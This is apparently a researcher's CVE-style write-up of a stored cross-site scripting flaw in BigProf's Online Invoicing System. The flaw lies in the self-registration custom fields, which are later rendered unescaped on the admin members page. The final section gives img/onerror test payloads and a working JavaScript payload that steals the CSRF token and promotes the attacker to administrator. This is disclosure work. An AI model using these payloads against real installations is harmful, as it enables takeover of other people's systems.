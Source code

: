 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System | Stored XSS in /membership_signup.php -> Application Takeover
tags: [CVE-Writeup, XSS]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Stored XSS
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to correctly sanitize user input when a user registers using the self-registration functionality. As such, an attacker can input a specially crafted payload that will execute upon the application's administrator browsing the registered user's list. Once the arbitrary Javascript is executed in the context of the admin, this will cause the attacker to gain administrative privileges therefore effectively leading into an application takeover.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

In order to allow user's to self-register, the following pre-requisites need to be met:

1. Sign up has to be enabled in `admin/pageSettings.php` (enabled by default during a fresh install.) 
2. Custom group has to be created which would contain the self-signed up users. 

Upon these two pre-reqs being met, a user is able to self-register by browsing to `http://localhost/membership_signup.php`.

When registering, a user sees the following fields:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fields.png)

The majority fields are optional apart from:

~~~
Username
Password
Confirm Password
Email
Group
~~~

Let's take a peek in the code to see what happens to the values of these fields after this information is passed to the server.

`app/membership_signup.php`:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fieldsbackend.png)

As shown on Lines 3-11 above, multiple variables are initialized with the values of the user-input after being passed into various functions. Then on Lines 14-32, the data is validated to ensure the username does not exist, the passwords match, etc. Finally on Line 37, a SQL query is crafted using the user input and executed thus storing the registered user's information in the database.

However Lines 8-11, look very interesting:

~~~
$custom1 = makeSafe($_POST['custom1']);
$custom2 = makeSafe($_POST['custom2']);
$custom3 = makeSafe($_POST['custom3']);
$custom4 = makeSafe($_POST['custom4']);
~~~

The lines above take the values that are passed into each respective parameter that starts with the name "custom". Looking at the HTML of the sign-up form, we can confirm these correspond with the optional fields: 

~~~
Full Name
Address
City 
State
~~~


What's most interesting here is that before these values are initialized with their respective variable, the values are first passed into the `makeSafe()` function. The `makeSafe()` function is dissected in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, the `makeSafe()` function is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

So while the `makeSafe()` function may help prevent SQL Injection attacks, it has no role in sanitizing HTML. As no HTML characters are being sanitized, the database is directly storing the HTML payloads unharmed. 

While this is a red flag, it is not appropriate to jump to conclusions as there could be additional functionality which sanitizes the value stored in the database before reflecting it onto the page.

To confirm this, we can take a look at the code which is responsible for displaying these values to the administrator.

**admin/pageViewMembers.php**:
![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/reflectme.png)

As shown on Line 1, a SQL query is executed to retrieve the values of the following columns:

~~~
m.memberID - Column 0
g.name - Column 1
m.signupDate - Column 2
m.custom1 - Column 3
m.custom2 - Column 4
m.custom3 - Column 5
m.custom4 - Column 6
...
~~~

On Line 2, a while loop is used to iterate over the values of each column. The index here corresponds with the index of the columns being listed above such as `$row[0]` being the memberID (m.memberID), `$row[1]` being the group name (g.name) and so on.

With this in mind, this means that the values of the custom fields will be stored in:

~~~
$row[3] // Full Name
$row[4] // Address
$row[5] // City
$row[6] // State
~~~

Finally each of these values are passed into the `thisOr()` function in which the returned value is directly reflected on to the page:

~~~php
<td class="text-left"><?php echo thisOr($row[1]); ?></td>
<td class="text-left"><?php echo thisOr($row[2]); ?></td>
<td class="text-left"><?php echo thisOr($row[3]); ?></td>
<td class="text-left"><?php echo thisOr($row[4]); ?></td>
<td class="text-left"><?php echo thisOr($row[5]); ?></td>
<td class="text-left"><?php echo thisOr($row[6]); ?></td>
<td class="text-left">
    <?php echo (($row[7] && $row[8]) ? $Translation['Banned'] : ($row[8] ? $Translation['active'] : $Translation['waiting approval'] )); ?>
</td>
~~~

Let's take a quick peek into the `thisOr()` function as it is the last step between successful exploitation as it may be the function which could be responsible for sanitizing the items.

**admin/incFunctions.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/thisor.png)

As shown above, the `thisOr()` function performs a simple ternary operation which checks if the value of the parameter passed to it is empty. If the value is not empty, it is returned as is. However if the value is empty, a non-breaking space HTML entity is returned.

Since `thisOr()` was the final thing standing between succesful exploitation and not, we can now confirm that the application is indeed vulnerable to Stored Cross-Site Scripting as the application fails to sanitize the user-input for any HTML special characters which can lead to exploitation.

With this in mind, an attacker is able to use Javascript to craft a payload that would bypass the Same Origin Policy therefore having the ability to grant themselves admin privileges. After sending the payload when creating a new user, an attacker will need to wait until the application's administrator browses to the user list which would therefore execute the payload.

# Proof of Concept

Basic:

```
Full Name - <img src=/ onerror=alert(1)>
Address - <img src=/ onerror=alert(2)>
City - <img src=/ onerror=alert(3)>
State - <img src=/ onerror=alert(4)>
```

Bypass SOP and grant yourself admin rights:

```javascript
// add-admin.js
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php?saved=1&memberID=attacker";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=attacker&memberID=attacker&password=&confirmPassword=&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=testing&custom2=123+Fake+St&custom3=London&custom4=New+York&comments=Test&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

**Replace**:
The values of `oldMemberID` and `memberID` with your respective username.


